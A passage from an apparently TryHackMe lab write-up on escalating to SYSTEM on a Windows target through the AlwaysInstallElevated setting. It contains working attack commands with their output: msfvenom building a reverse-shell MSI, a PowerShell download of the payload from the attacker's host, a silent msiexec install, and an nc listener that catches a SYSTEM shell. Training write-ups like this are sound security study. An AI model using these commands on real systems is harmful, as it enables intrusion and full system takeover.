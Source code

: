   ```
      AlwaysInstallElevated    REG_DWORD    0x1
  ```
  
- Note that the both keys are set to 1 (0x1). You can find a full guide for this exploitation on TryHackMe's Windows PrivEsc and WindowsPrivEsc Arena rooms. They are both free!

- Now generate a reverse shell with msfvenom.

  ```
  $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[YOUR-THM-IP] LPORT=5555 -f msi -o reverse.msi
  [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
  [-] No arch selected, selecting arch: x64 from the payload
  No encoder specified, outputting raw payload
  Payload size: 460 bytes
  Final size of msi file: 159744 bytes
  Saved as: reverse.msi
  ```
  
- Now start a Python server and download the reverse shell to target machine.

  ```
  C:\Users\CyberLens\Desktop>powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://[YOUR-THM-IP]:80/reverse.msi','C:\Users\CyberLens\Desktop\reverse.msi')"
  powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://[YOUR-THM-IP]:80/reverse.msi','C:\Users\CyberLens\Desktop\reverse.msi')"
  
  C:\Users\CyberLens\Desktop>dir
  dir
   Volume in drive C has no label.
   Volume Serial Number is A8A4-C362
  
   Directory of C:\Users\CyberLens\Desktop
  
  06/08/2025  06:54 PM    <DIR>          .
  06/08/2025  06:54 PM    <DIR>          ..
  06/21/2016  03:36 PM               527 EC2 Feedback.website
  06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
  06/08/2025  06:54 PM           159,744 reverse.msi
  06/06/2023  07:54 PM                25 user.txt
                 4 File(s)        160,850 bytes
                 2 Dir(s)  14,940,573,696 bytes free

  $ python3 -m http.server 80                                                                                
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  10.10.149.152 - - [08/Jun/2025 19:54:42] "GET /reverse.msi HTTP/1.1" 200 -
  ```

- At last, start a listener and run the shell.

  ```
  C:\Users\CyberLens\Desktop>msiexec /quiet /qn /i C:\Users\CyberLens\Desktop\reverse.msi
  msiexec /quiet /qn /i C:\Users\CyberLens\Desktop\reverse.msi

  $ nc -lvnp 5555
  listening on [any] 5555 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.149.152] 49948
  Microsoft Windows [Version 10.0.17763.1821]
  (c) 2018 Microsoft Corporation. All rights reserved.
  
  C:\Windows\system32>whoami
  whoami
  nt authority\system
  ```
